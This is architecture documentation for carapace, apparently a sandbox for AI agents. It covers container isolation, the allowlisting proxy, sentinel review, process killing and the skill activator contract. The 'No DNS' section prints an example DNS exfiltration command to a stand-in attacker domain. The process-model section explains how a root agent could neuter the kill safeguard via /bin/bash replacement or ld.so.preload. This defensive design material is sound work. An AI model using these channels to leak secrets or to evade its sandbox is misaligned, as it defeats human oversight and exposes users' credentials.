

# Sandbox Architecture

All agent tool invocations — script execution, shell commands, file operations — run inside a sandboxed container. carapace itself (the server) runs on the host (or in its own container/pod), but every agent action runs inside an isolated container.

## Execution model

Each session resolves to a logical sandbox identified by `sandbox_id`. By default that ID matches the session ID. When the Kubernetes warm pool is enabled, a session may instead claim a prestarted generic sandbox with a unique id such as `pool-3f9c…`, so `sandbox_id` and `session_id` can differ. The sandbox inspector in the web UI surfaces that current `sandbox_id` so claimed warm sandboxes are visible.

The active sandbox provides the agent with a workspace where it can read files, run commands, and interact with skills.



### Container capabilities

- **Shell access**: The agent runs commands via `exec` (equivalent to `docker exec` / `kubectl exec`)
- **File operations**: `read`, `write`, `str_replace` work directly on the container filesystem
- **Network access**: All outbound traffic goes through the HTTP forward proxy, which enforces per-session domain allowlisting
- **Skills**: Activated skills are available in the cloned knowledge repo; the image-provided activator prepares their runtimes
- **Workspace files**: `SOUL.md`, `USER.md`, `SECURITY.md` etc. live in the knowledge repo at `/workspace/`. Changes are persisted via `git commit` and `git push`.

### Sandbox image

The official image is built with Nix (`nix/sandbox.nix`) and has no FHS layout: `/bin` holds the tools, `/usr/bin` and `/usr/local/bin` link to it, and everything else lives in `/nix/store`. Agents still install and run ordinary software at runtime:

- **nix-ld** sits at the system loader path (`/lib64/ld-linux-x86-64.so.2`, `/lib/ld-linux-aarch64.so.1` on ARM). Dynamically linked downloads, PyPI wheels, and npm addons find their libraries in `/run/current-system/sw/share/nix-ld/lib`: the NixOS default set without systemd, plus ICU, expat, and libffi. No environment variables are involved.
- **Python** is python-build-standalone 3.14, installed as uv's managed default under `/root/.local/share/uv/python` with `python3` in `/root/.local/bin`. `UV_PYTHON_PREFERENCE=only-managed` keeps uv away from Nix interpreters. A Nix-built interpreter bypasses nix-ld and cannot load the native libraries of wheels, so none is on `PATH`; the stdio MCP bridge has its own Nix Python environment outside `PATH`.
- **Node.js 24** with npm and corepack (pnpm, yarn), **uv**, Git, curl, jq, ripgrep, kubectl, poppler-utils, the usual base tools, and the sandbox CLIs (`ccred`, `cgate`, `setup-proxy.sh`, the skill activator, the stdio MCP bridge).
- **FHS data files**: a CA bundle at `/etc/ssl/certs/ca-certificates.crt` and `/etc/ssl/cert.pem`, terminfo at `/usr/share/terminfo`, `/etc/fonts/fonts.conf` with DejaVu, and an `en_US.UTF-8` locale archive (`LANG` is `C.UTF-8`).
- **Nix**: single-user as root with flakes enabled, no build sandbox, and its own Nix database, so `nix profile` and `nix-collect-garbage` know the image's paths (which are GC roots). The `nixpkgs` registry entry is the flake's own locked nixpkgs, marked final, and the image ships that source as a valid store path, so `nix run nixpkgs#…` evaluates without downloading nixpkgs. The global flake registry is disabled, because fetching it needs a domain approval. Substitutes come only from the [builder cache](#builder-cache), which also passes `cache.nixos.org` through. Evaluating nixpkgs peaks around 1.3 GiB, so sandboxes get a 2 GiB memory limit (Docker runtime default and Helm value); the request stays at 128 MiB.

Store and installed packages live in the container layer and are gone when a sandbox is recreated.

### Process model

Grants are scoped to a session, not to a process: while a command runs with a skill's context, its domains and credentials, sentinel-approved domains or the proxy bypass of a skill activation, every process in the sandbox could use them. So carapace keeps one invariant: **whenever it grants anything, no process from an earlier call is still alive in the sandbox.**

- Every `exec` (the agent's commands, but also file reads and writes, uploads, downloads and stdio MCP calls, which all run through it) starts by killing every process in the container except PID 1 (the container's `sleep infinity`). Only then does carapace grant the call's contexts, start its tunnels and write its file credentials. A bypassed setup command (skill activation, restoring command shims) kills the same way before the bypass opens.
- If processes were killed, the agent's `exec` result ends with `Killed N leftover process(es) from earlier commands.`
- Background processes therefore do not survive their own `exec`. Within one command they work as usual (`./server & sleep 2; curl localhost:8000; kill %1`); across commands they don't.
- Container operations of a session run one at a time under its exec lock, so the kill never hits another operation midway. Sandbox startup runs under the startup lock instead, which every exec waits for before it kills. Pull and push from the web UI take the lock too and wait while a command runs. A few operations stay outside the lock: the web UI's git status (its read-only commands run alongside a command, a kill only fails that one refresh, and it fetches only when no command runs), reapplying the git identity after a settings change (it holds the knowledge git lock that an agent's `git push` also takes, so waiting here could deadlock; a kill only fails the settings save) and measuring workspace usage on Kubernetes (a killed `df` keeps the previous measurement).

The killer is a bash script run by absolute path (`/bin/bash`, not via `PATH`, whose first entry holds the skill command shims; the runtimes' own `bash -c` wrapper for every exec uses `/bin/bash` too). It counts the live processes, skips zombies (PID 1 never reaps them) and sends `SIGKILL` to all of them in one `kill(-1)` call, which a forking process cannot outrun. It refuses to run if another process in the sandbox is its parent, because `kill(-1)` would take that wrapper down with it.

This guarantees that processes left behind by earlier calls, whether by accident or by a naive script that daemonizes itself, never see a later grant. It is not tamper-proof: the agent is root in the sandbox and can write anywhere, so it can replace `/bin/bash` (the killer's interpreter, and on Kubernetes also the wrapper of every exec) or preload a library through `/etc/ld.so.preload`. An agent that deliberately sets this up can neuter the kill. The planned fix is a static killer binary on a read-only mount, executed by absolute path without a shell ([#538](https://github.com/thiesgerken/carapace/issues/538)).

## Mounts

When a session container is created, the following mounts are configured:

### Docker mode

| Host source                 | Container path | Mode       | Purpose                      |
| --------------------------- | -------------- | ---------- | ---------------------------- |
| `sessions/{sid}/workspace/` | `/workspace/`  | read-write | Persistent session workspace |

### Kubernetes mode (StatefulSet)

Each session gets its own PVC via the StatefulSet's `volumeClaimTemplates`:

| Volume                           | Container path | Mode       | Purpose                      |
| -------------------------------- | -------------- | ---------- | ---------------------------- |
| `session-data` (per-session PVC) | `/workspace/`  | read-write | Persistent session workspace |
| `session-data` (per-session PVC) | `/tmp/`        | read-write | Persistent temp files        |

No shared PVC access — the server's data PVC is `ReadWriteOnce`.

The knowledge repo is cloned directly into `/workspace/` on first start. On container restarts the existing working tree is reused. `/tmp/` is backed by the same per-session PVC via a separate `subPath`, so temp artifacts also survive suspend and resume without provisioning a second claim. To persist changes back to the server, the agent uses `git commit` and `git push` inside `/workspace/`. Every push is evaluated by the security sentinel via a pre-receive hook.

## Custom sandbox skill activator contract

Every sandbox image must contain an executable at `/usr/local/bin/carapace-skill-activator`. It prepares a complete skill runtime and may override declared command aliases. The image owns the implementation; neither Helm nor Docker Compose selects its path. A custom image may provide a wrapper or a symlink to an immutable executable, for example in the Nix store.

A missing or non-executable activator fails automatic setup. There is no implicit no-op fallback. An image that needs no preparation must still provide an executable that exits zero and emits `{"protocol_version":1}`. This leaves all declared commands unchanged.

Carapace enforces a 600-second timeout for the complete invocation, configurable on the server:

```text
CARAPACE_SANDBOX_SKILL_ACTIVATOR_TIMEOUT_SECONDS=600
```

Upgrade note: the previous built-in providers each had a separate 600-second budget. The new budget covers the entire invocation, including fetching source inputs and all setup steps. Raise this setting for heavy skills that previously relied on multiple provider budgets.

Carapace invokes the executable once per skill with `--request-base64` followed by a base64-encoded JSON object:

```json
{
  "protocol_version": 1,
  "skill": "web",
  "skill_dir": "/workspace/skills/web",
  "workspace": "/workspace",
  "source_revision": "0123456789abcdef0123456789abcdef01234567",
  "commands": [
    {
      "name": "web_search",
      "command": "uv run --directory /workspace/skills/web web_search"
    }
  ]
}
```

`source_revision` is the exact committed knowledge-repository object ID selected by Carapace. The live workspace remains writable and may contain later or uncommitted changes. The activator selects its activation inputs from `source_revision` and decides which files to restore or how to consume that revision. Carapace never resets the complete skill directory.

Carapace supplies `GIT_REPO_URL` in the process environment. It is the authenticated URL of the server-side knowledge repository, not a mutable Git remote name from the workspace. A long-lived sandbox may not yet contain `source_revision`. The official activator fetches that exact object from `GIT_REPO_URL` when needed and verifies it before restoring individual provider files. It does not merge, reset the working tree, or move local branches. If fetching fails, activation fails rather than substituting another revision.

Keep `GIT_REPO_URL` out of protocol JSON, messages, and logs: it contains authentication credentials. The base64 request is encoded for shell transport, not encrypted.

On success, the executable exits zero and writes exactly one JSON object to stdout, with no prefix or other output. The parser reads raw stdout only, never combined stdout/stderr. Send all diagnostics to stderr; JSON there cannot act as a protocol response:

```text
{"protocol_version":1,"command_overrides":{"web_search":"/nix/store/.../bin/web_search"},"messages":["Realized web commands."]}
```

`command_overrides` may contain only aliases present in `commands`. Omitted aliases keep their declared commands. Commands and messages must be nonempty single-line strings. Messages are model-facing and must not contain credentials or raw package-manager and hook output.

On failure, the executable exits nonzero. It may emit one JSON response with a safe error:

```text
{"protocol_version":1,"error":"runtime realization failed with status 1"}
```

Carapace rejects unknown versions, malformed responses, undeclared aliases, invalid command strings, and invocations exceeding the configured timeout. It validates the full response before installing command shims. Activator filesystem side effects are not rolled back. Activation failures, including invalid responses, log at most 2,000 characters of combined diagnostics server-side; this raw output is not returned to the model. Activators and setup scripts must not print credentials, including environment variables and authenticated URLs.

The activator runs after `use_skill` approval with the skill's successfully resolved `env_var` and `file` credentials, plus the same proxy bypass used by the previous built-in setup providers. Credentials are not part of the JSON request. File credentials are removed after invocation.

The executable is trusted deployment code that receives credentials and proxy bypass. It must not be stored in agent-writable locations such as `/workspace` or `/tmp`, to ensure that the agent cannot tamper with activation. Its integrity, including the symlink target, interpreter, and dependencies, is the sandbox image operator's responsibility. Use read-only mounts or a non-root sandbox user with protected image files. A Nix store path is suitable only if the agent cannot modify that store or the link to it. The fixed path alone is not an integrity guarantee; Carapace does not enforce a read-only container root.

Carapace starts the activator in the workspace, not the skill directory, so it can materialize inputs even when the skill directory is missing.

The official image contains `/usr/local/bin/carapace-skill-activator`. It reads matching provider blobs using `git cat-file`, avoiding checkout hooks, filters, and index changes. Provider inputs must be regular committed files; their executable bit is preserved. It rejects symlinked directory components and writes temporary files before renaming over destination files, replacing rather than following a destination symlink. It then runs the [official provider chain](skills.md#official-sandbox-activator). Custom images must implement the versioned process contract above; they need not reproduce that provider chain.

## Network policy

All outbound traffic from sandbox containers is routed through the carapace server's HTTP forward proxy:

- Containers receive only `HTTP_PROXY` / `HTTPS_PROXY` environment variables pointing to the proxy
- No direct internet access — enforced by Docker network isolation or Kubernetes NetworkPolicy
- The proxy uses per-session token-based authentication (injected as `Proxy-Authorization` via environment setup script)
- No DNS: the sandbox cannot resolve any name itself (see below)

### No DNS from the sandbox

A resolver that forwards external names is a channel past the proxy: `getent hosts $(secret).evil.tld`, or any `getaddrinfo` call inside a script, carries data to whoever runs the authoritative server for `evil.tld`, and the sentinel never sees it. The sandbox needs no DNS:

- It reaches the server by IP. The proxy URL, the git origin (`GIT_REPO_URL`), `CARAPACE_API_URL` and `NO_PROXY` are all built from the server's IP on the sandbox network (Docker) or its ClusterIP (Kubernetes).
- Proxy-aware tools send the hostname to the proxy, which resolves it on the server. pip, uv, npm, git over HTTPS and curl all work this way.
- [Exec-scoped tunnels](#exec-scoped-tcp-tunnels) shadow their hostnames in `/etc/hosts`.

How each runtime enforces it:

- **Kubernetes**: the NetworkPolicy blocks DNS along with all other egress except the proxy and the sandbox API. That is the barrier. On top, sandbox pods get `dnsPolicy: None` with `127.0.0.1` as their only nameserver. Nothing listens there, so lookups fail immediately instead of hanging until the blocked kube-dns times out. That setting only rewrites `/etc/resolv.conf`, so it does not stop a query sent straight to a resolver's IP. Without a CNI that enforces the NetworkPolicy the sandbox has direct egress, DNS included (see [kubernetes.md](kubernetes.md#networkpolicy)).
- **Docker**: Docker's embedded DNS (`127.0.0.11`) answers only names on the network itself (other containers) for containers on an `internal` network such as `carapace-sandbox`. It does not forward other queries upstream (verified with a packet capture on Docker Engine 29), so carapace configures nothing extra. On another engine version, check that `getent hosts example.com` fails inside a sandbox.

Tools that insist on resolving a hostname locally before they connect fail in the sandbox. Proxy-aware clients are unaffected.

### Domain allowlisting

Each session maintains a domain allowlist. Domains are added when:

1. **Skill activation**: Domains declared in a skill's `SKILL.md` frontmatter under `metadata.carapace.network.domains` are registered when the skill is activated and applied to commands that explicitly use that skill's context.
2. **Sentinel approval**: Unknown domains are evaluated by the sentinel. If allowed, they're added for the current exec call. If escalated, the user decides. Requests of one exec that arrive within a short window are reviewed together, and a decision is reused for the rest of that exec, never for the next one. The `exec` itself is not reviewed: the sandbox is the boundary, and this is where it is crossed. A command can also ask for its domains up front with [`cgate request`](#declaring-needs-up-front-cgate).
3. **Proxy bypass**: During sandbox-provided skill activation, the proxy is temporarily bypassed. The official activator selects and restores its executable inputs from the committed `source_revision` before running uv, npm, pnpm, or `setup.sh`.

The proxy supports exact domain matching (`example.com`) and wildcard matching (`*.example.com`).

### Internal destinations

The proxy connects from the server's network position, where Postgres, Redis, the builder, the Bitwarden proxy, cluster services and your LAN are reachable, some without authentication. So the proxy refuses internal addresses: loopback, private (RFC 1918), link-local, unique-local, CGNAT and other non-global ranges (also when embedded in IPv6 as mapped, NAT64 or 6to4 addresses), the server's own addresses, and the Kubernetes API's service address. An IP literal is checked right away, so the sentinel is never asked about it. A name goes through the domain decision first and is resolved only once it is allowed, because resolving it earlier would let any process send data out in DNS queries for names nobody approved. The proxy then checks every address the name resolves to and connects to a checked address, not the name again, so a second DNS answer cannot swap in an internal one. A refusal is a `403` like a sentinel denial. Its body names the settings below but not the internal address.

Skills that should reach internal hosts anyway, say a homelab, need the operator to allow them:

| Setting | Helm value | Matches |
| --- | --- | --- |
| `CARAPACE_SANDBOX_PROXY_ALLOWED_NETWORKS` | `sandbox.allowedInternalNetworks` | addresses in these CIDRs |
| `CARAPACE_SANDBOX_PROXY_ALLOWED_HOSTS` | `sandbox.allowedInternalHosts` | these host names exactly (case-insensitive, no wildcards), whatever they resolve to |

Both are JSON lists. Allowing a destination only lifts the internal-address block; every domain still needs an approval like any other. For a home network in Docker Compose, in `.env`:

```env
CARAPACE_SANDBOX_PROXY_ALLOWED_NETWORKS=["192.168.178.0/24"]
CARAPACE_SANDBOX_PROXY_ALLOWED_HOSTS=["paperless.home.arpa"]
```

Or in Helm values:

```yaml
sandbox:
  allowedInternalNetworks: ["192.168.178.0/24"]
  allowedInternalHosts: ["paperless.home.arpa"]
```

Prefer exact hosts or narrow CIDRs over your whole LAN, and never allow the cluster's service or pod ranges or the Compose network as a whole: that reopens Redis, Postgres and the builder API to any approved domain that resolves there.

### Builder cache

`cache.carapace.internal` is the one destination the proxy reaches without a domain decision and despite being internal: it maps that name to the [builder's binary cache](builder.md#binary-cache) (`CARAPACE_BUILDER_CACHE_URL`). Only plain-HTTP `GET` and `HEAD` of cache paths pass (`/nix-cache-info`, narinfos, NARs); anything else, and `CONNECT`, is a `403`. So `nix run nixpkgs#hello` costs no sentinel call per download, and the mapping reaches nothing on the builder but the cache.

Sandboxes get the matching Nix settings in `NIX_CONFIG`: the cache as the only substituter, the builder's and the upstreams' public keys as the trusted keys (so an unsigned or wrongly signed path is refused), `max-substitution-jobs = 1` and `narinfo-cache-negative-ttl = 30`, because Nix otherwise remembers a missing path for an hour. The server fetches the keys from the builder's `/info` whenever it assigns a sandbox to a session, so a builder with a new key is picked up by the next sandbox. With a builder configured but not answering, the sandbox does not start, and the error says so: substituting from anywhere else would quietly put every download behind the domain gate. The agent is root in its sandbox and can override `NIX_CONFIG`. That only changes its own sandbox: any other substituter is an ordinary destination that needs a domain approval.

### Exec-scoped TCP tunnels

Skills may also declare `network.tunnels` in their `metadata.carapace` config. These are not long-running session daemons. Instead, carapace manages them around a single `exec` call:

1. Before the command runs, carapace temporarily shadows the declared hostnames inside the sandbox.
2. It starts trusted TCP forwarders inside the sandbox that use the existing HTTP CONNECT proxy to reach the remote `host:remote_port` endpoints.
3. The user command runs.
4. In `finally`, carapace stops the forwarders and restores the original host resolution.

Important semantics:

- Tunnels are exec-scoped, not session-scoped.
- Tunnel hosts must be exact hostnames; wildcards are not allowed.
- The client should keep using the original hostname so TLS validation and SNI continue to work.
- `network.domains` and `network.tunnels` may overlap on the same hostname.
- Proxy-aware HTTP and HTTPS to the same hostname still work through the normal proxy path.
- Direct socket connections to the tunneled hostname are shadowed for the duration of that exec, even on other ports.

## Declaring needs up front: `cgate`

A command can ask for everything it will need before it starts its work, so the sentinel decides once with the whole `exec` in view instead of once per request. Generated skill wrappers do this; any process may.

```sh
cgate request --domain api.example.com --domain '*.cdn.example.com' \
  --credential personal/api-key --store-path /nix/store/...-my-skill
```

After approval the domains are reachable and `ccred get` returns the credentials without another review, until the `exec` ends. A domain or credential that was not declared still works: it reaches the sentinel through the proxy or `ccred` as a short follow-up that does not repeat the command. Follow-ups are tracked per `exec`, so the first request of the next `exec` always shows its command, also when parallel tool calls run their `exec`s one after the other.

A declaration is a batching hint and carries no trust. The sentinel judges it like the single requests, and sees the caller's store path together with whether it matches what was built for the current head. Until skills are built by the builder that match is reported as unknown. A process in the sandbox can claim any store path; the check covers the honest development case, where `nix run ./skills/x#cmd` runs workspace code that differs from the committed skill.

### CLI contract

Wrappers generated by older versions of the Nix helpers call `cgate` from images of newer releases, so this contract only grows:

| | |
| --- | --- |
| Invocation | `cgate request [--domain D]... [--credential VAULT_PATH]... [--store-path PATH]` |
| `--domain` | A host name, or `*.` plus a name of at least two labels (`*.example.com`), repeatable. A bare `*`, `*.com`, a URL or a port is rejected. |
| `--credential` | A vault path (`<backend>/<id>`), repeatable. Approved as the password value, the one `ccred get` returns without flags. |
| `--store-path` | The wrapper's own Nix store path, `/nix/store/<32-character hash>-<name>` and nothing after it. Optional; anything else is rejected. |
| `--tunnel` | `HOST:PORT`, reserved. Not supported yet: exits with status 2 and names the flag. |
| Exit status | `0` approved (also when everything was approved earlier in this `exec`), `1` denied or failed with the reason on stderr (`error: <reason>`), `2` usage error. |
| Environment | `CARAPACE_API_URL`, set in every sandbox. |

Under the hood `cgate` posts `{"domains": [...], "credentials": [...], "store_path": ...}` to `POST /gate` on the sandbox API. The answer is `200` when approved, `403` with the reason as a plain-text body when denied (also when no `exec` is running, or the `exec` ended before the decision), `400` for an invalid request and `404` for an unknown credential.

## Container lifecycle

- **Creation**: A container is created (or ensured running) when a session needs it — typically on the first tool call. Startup is serialized per session: concurrent callers, such as parallel `use_skill` calls in a fresh session, wait for the first one to finish starting the sandbox instead of each claiming or creating their own.
- **Reuse**: The container stays running for the session's duration. Multiple tool calls reuse the same container.
- **Idle timeout**: Configurable (default: 60 min). In Docker mode, idle containers are destroyed. In Kubernetes mode, the StatefulSet is scaled to 0 replicas — the PVC is retained, so venvs and workspace state survive.
- **Warm pool**: If `CARAPACE_SANDBOX_WARM_POOL_SIZE > 0`, carapace maintains that many unattached base-image sandboxes ahead of time. On Kubernetes, new sessions claim one of these warm sandboxes before falling back to cold creation. The claimed sandbox keeps its own unique `sandbox_id` (for example `pool-3f9c…`) while still being attached to the session.
- **Re-warming**: When the session needs its sandbox again after the container expired, a new container is created (Docker: fresh container with the same bind mounts; Kubernetes: StatefulSet scaled back to 1 replica, PVC still attached). Whenever a sandbox is freshly created, claimed or resumed, whatever triggered it (a command, `use_skill`, a git pull/push from the UI, or starting the sandbox or uploading a file from the web UI), carapace reruns the image-provided activator for each active skill and restores command shims before any caller gets to use the sandbox. Approved skill credentials are made available before activation. The same applies when a command finds its container gone and the sandbox is recreated for the retry, even if the runtime has already restarted the container on its own.
- **Image changes**: In Docker mode every resume recreates the container, so it always uses the configured `CARAPACE_SANDBOX_BASE_IMAGE`. In Kubernetes mode, stale warm-pool members are replaced and scaled-down session sandboxes switch to the configured image when they resume; running sandboxes are left alone (see [kubernetes.md](kubernetes.md#changing-the-sandbox-image)).
- **Reset** (`/reload`): Fully destroys the container and workspace (including the PVC in Kubernetes mode) and creates a fresh sandbox with a new git clone on the next command.

### Per-user sandbox limit

A suspended sandbox keeps its storage until its session is deleted, archived or reset, so abandoned sessions pile up. Two settings bound that per user:

- `CARAPACE_SANDBOX_MAX_PER_USER` (default `100`, `0` disables): when a session without a sandbox needs one (cold create or warm-pool claim) and its owner already holds that many, the start fails with "You have 100/100 sandboxes. Delete old sessions to start a new one." The agent sees this as a failed tool call (so do Matrix users); the web API answers `409`. Resuming or recreating a session's existing sandbox never adds one and is never refused. The check runs under the per-session startup lock only, so parallel starts of different sessions can overshoot the limit slightly.
- `CARAPACE_SANDBOX_WARN_PER_USER` (default `20`, `0` disables): from this count on, the web UI sidebar shows a warning to delete old sessions. At the hard limit it shows an error instead. The numbers come from `GET /api/sandboxes/usage`.

What counts as a sandbox depends on the runtime:

- **Kubernetes**: every session StatefulSet, running or scaled to 0 (each holds a session PVC).
- **Docker**: every session with a container or a kept workspace directory (`sessions/{sid}/workspace/`). Suspending removes the container, so an idle Docker sandbox exists only as its workspace, and resuming it recreates the container without counting as a new sandbox.

Unclaimed warm-pool members belong to no user and never count.

## Runtimes

carapace supports two sandbox runtimes, configured via `CARAPACE_SANDBOX_RUNTIME`:

### Docker

The default runtime. Uses the Docker socket (`/var/run/docker.sock`) to manage containers. Sandbox containers run on an internal Docker network (`carapace-sandbox`) with no direct internet access.

### Kubernetes

For cluster deployments. Sandbox sessions run as Kubernetes StatefulSets with per-session PVCs (via `volumeClaimTemplates`). Commands are executed via the Kubernetes exec API. On idle timeout the StatefulSet is scaled to 0 replicas (PVC retained); on resume it's scaled back to 1. The warm-pool claim path is currently implemented here: generic prestarted base sandboxes can be claimed for new sessions when `CARAPACE_SANDBOX_WARM_POOL_SIZE` is set. See [kubernetes.md](kubernetes.md) for full details.

Both runtimes implement the same `ContainerRuntime` interface, so the rest of carapace doesn't need to know which backend is in use.

## Docker socket

In Docker mode, carapace needs access to the Docker socket:

```yaml
services:
  carapace:
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
```

The server uses the Docker SDK for Python to manage container lifecycle, and `docker exec` for command execution.
